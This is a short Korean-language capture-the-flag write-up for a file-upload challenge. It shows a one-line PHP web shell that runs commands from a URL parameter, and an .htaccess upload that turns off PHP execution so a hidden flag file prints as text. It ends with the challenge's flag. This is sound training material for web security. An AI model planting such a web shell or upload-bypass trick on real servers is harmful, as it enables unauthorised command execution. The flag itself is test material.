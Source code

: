 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-14-12-42.png)


# **Write-Up**

flag.php링크를 클릭하면 아무것도 안보인다. php코드에 FLAG 값이 존재하는 것으로 추측된다.

![](images/2022-01-03-14-12-52.png)

간단한 웹쉘을 만들어보자.

```php
<?php
system($_GET['cmd']);
?>
```

업로드 해보면 '<' 문자가 필터링되어 php로서 파일을 실행시킬 수 없다.

![](images/2022-01-03-14-13-13.png)

.htaccess 파일을 올려서 php를 실행시키지 않고, 텍스트로 출력하는 방향으로 잡자. .htaccess파일을 만든다.

    php_flag engine off

업로드한 후 flag.php에 접근하면 FLAG를 획득할 수 있다.

![](images/2022-01-03-14-13-21.png)

점수를 획득하자.

![](images/2022-01-03-14-13-26.png)


# **FLAG**

**FLAG{easy_peasy_apachy}**